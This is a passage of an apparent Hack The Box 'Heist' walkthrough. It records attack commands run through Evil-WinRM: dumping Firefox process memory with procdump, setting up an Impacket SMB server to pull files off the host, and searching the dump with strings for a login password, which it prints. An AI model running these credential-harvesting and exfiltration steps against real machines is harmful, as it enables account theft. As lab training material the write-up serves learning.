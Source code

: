 *Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump.exe -accepteula -ma 3004 firefox.dmp

![image](https://user-images.githubusercontent.com/6413570/163595741-083138ec-df42-4577-8ee4-e511975dadfc.png)

![image](https://user-images.githubusercontent.com/6413570/163595750-5532ae9c-1357-4a67-a4d2-435c8c7787e5.png)

SMB server to transfer file 

root@kali:~/htb/heist# smbserver.py -smb2support -username jesse -password jesse2 share /root/htb/heist/

need to be in Impacket folder
locate smbserver.py

cd /usr/share/doc/python3-impacket/examples/

root@kali:/usr/share/doc/python3-impacket/examples# python3 smbserver.py -smb2support -username jesse -password jesse2 share /root/htb/heist/

![image](https://user-images.githubusercontent.com/6413570/163595790-8f05c3cd-2fb7-401b-b8f2-9ac18c4e7721.png)
![image](https://user-images.githubusercontent.com/6413570/163595797-43b5dd17-ad1b-497a-9a0f-9de208b4cd49.png)

![image](https://user-images.githubusercontent.com/6413570/163595804-d29f50fa-9552-448b-acc9-da135649399c.png)

Screw it, can't get this to work, so I will use Evil-WinRM:

![image](https://user-images.githubusercontent.com/6413570/163595820-91696f29-01bc-4232-8ae7-c96113a7bdee.png)

https://docs.microsoft.com/en-us/sysinternals/downloads/strings

upload strings

![image](https://user-images.githubusercontent.com/6413570/163595839-ee7bc950-6341-4ea0-9205-df240e0e9f7c.png)

Evil-WinRM* PS C:\Users\Chase\Desktop> ./strings.exe -a firefox.dmp | findstr login_password > what.txt

![image](https://user-images.githubusercontent.com/6413570/163595866-a6f6040f-9017-4ee3-8190-46968f57513b.png)

This didn't work above....

so atfter a long upload from WinRM....

![image](https://user-images.githubusercontent.com/6413570/163595884-d85ab17f-06a4-4af7-8a99-b99884c421ef.png)

![image](https://user-images.githubusercontent.com/6413570/163595894-0c851598-7391-49b2-9794-c7338e0b5685.png)

localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

4dD!5}x/re8]FBuZ

ropnop staticbinary

https://github.com/ropnop/impacket_static_binaries

root@kali:~/htb/heist# curl -s -o smbserver_linux -L https://github.com/ropnop/impacket_static_binaries/releases/download/0.9.19-dev-binaries/smbserver_linux_x86_64
